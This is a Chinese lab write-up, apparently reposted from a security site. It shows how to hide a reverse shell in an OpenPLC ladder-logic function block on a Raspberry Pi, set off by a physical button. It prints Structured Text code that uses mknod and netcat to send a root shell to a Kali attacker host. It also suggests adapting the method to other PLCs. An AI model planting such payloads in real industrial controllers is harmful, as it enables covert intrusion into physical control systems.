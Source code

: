> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.anquanke.com](https://www.anquanke.com/post/id/236177)

[![](https://p2.ssl.qhimg.com/t019ec0be67f53f2ec3.jpg)](https://p2.ssl.qhimg.com/t019ec0be67f53f2ec3.jpg)

这次实验的目标是通过梯形图的编程，对外反弹一个 PLC 底层 OS 的 shell 连接外部 Kali 机器（也可以是 VPS 上 Kali），而这次采用外部面包板上按钮来做触发。这次 PLC 仍然采用树莓派上运行 OpenPLC 来制作。

1、建立实验环境
--------

这次已经准备好以下几项设备：

树莓派（硬件 PLC 运行 OpenPLC Runtime），IP：192.168.3.14

Window7 虚拟机（运行 OpenPLC 编辑环境）， IP：192.168.3.3

Kali 攻击机（渗透测试），IP：192.168.3.10

外围电路：面包板，LED 灯，按钮和电线

2、编写一个梯形图和封装一个功能块
-----------------

首先，我们打开 OpenPLC 编辑器，新建一个项目后，添加一个自定义功能块：

[![](https://p2.ssl.qhimg.com/t01b3d2ac2685d9d7cf.png)](https://p2.ssl.qhimg.com/t01b3d2ac2685d9d7cf.png)

输入一个功能块的名字，这里为了明显，名字选择 rsh_exec，同时编程语言选择 ST（结构化语言 “类似于 Pascal”）

[![](https://p1.ssl.qhimg.com/t01fcbdc4e60288347e.png)](https://p1.ssl.qhimg.com/t01fcbdc4e60288347e.png)

定义了功能块的输入和输出，同时写入一段反弹 shell 的 ST 的程序段

[![](https://p5.ssl.qhimg.com/t010a2f5fbc41e1fb4a.png)](https://p5.ssl.qhimg.com/t010a2f5fbc41e1fb4a.png)

在 ST 编辑环境中输入以下这段程序：

IF (exe = TRUE) THEN

{system(“mknod /tmp/pipe p”);}

{system(“/bin/sh 0</tmp/pipe | nc 192.168.3.10 4444 1>/tmp/pipe”);}

done := TRUE;

return;

END_IF;

done := FALSE;

return;

3、在用户逻辑中调用这个功能块：
----------------

[![](https://p3.ssl.qhimg.com/t0167720e89b4077224.png)](https://p3.ssl.qhimg.com/t0167720e89b4077224.png)

测试后，运行树莓派上 OpenPLC 的这段成程序，按下按钮后会反弹一个树莓派 Pi OS 的 shell 给外部 Kali 机器，同时会显示 ID 和 hostname，并且是 root 权限。

[![](https://p4.ssl.qhimg.com/t01381c44e86455c556.png)](https://p4.ssl.qhimg.com/t01381c44e86455c556.png)

注释：不是全部 PLC 都支持这种 OS 层的 shell 反弹，但是可以通过梯形图的组态，制作成基于所有 PLC 的自定义的功能码的 shell 反弹程序，如果有工控用户 shell 反弹防护技术和方法感兴趣可以联系工业安全红队 IRTeam。